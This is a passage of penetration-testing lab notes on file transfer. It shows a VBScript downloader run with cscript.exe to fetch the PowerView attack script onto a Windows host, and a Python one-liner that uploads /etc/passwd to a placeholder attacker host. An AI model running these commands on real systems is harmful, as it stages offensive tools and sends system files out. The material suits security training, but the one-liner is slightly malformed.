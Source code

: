 We can use the following command from a Windows command prompt or PowerShell terminal to execute our JavaScript code and download a file.

#### Download a File Using JavaScript and cscript.exe

  Download a File Using JavaScript and cscript.exe

```cmd-session
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```


### VBScript
make a file calles wget.vbs

Code: vbscript

```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

#### Download a File Using VBScript and cscript.exe

  Download a File Using VBScript and cscript.exe

```cmd-session
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```


If we want to upload a file, we need to understand the functions in a particular programming language to perform the upload operation. The Python3 [requests module](https://pypi.org/project/requests/) allows you to send HTTP requests (GET, POST, PUT, etc.) using Python. We can use the following code if we want to upload a file to our Python3 [uploadserver](https://github.com/Densaugeo/uploadserver).


`python3 -m uploadserver`

## uploading a File using a python one-liner

python3 -c 'import requests;requests.post("http://MACHINE_IP:8000/upload",files={"files":open("/etc/passwd","rb")})")'

Let's divide this one-liner into multiple lines to understand each piece better.
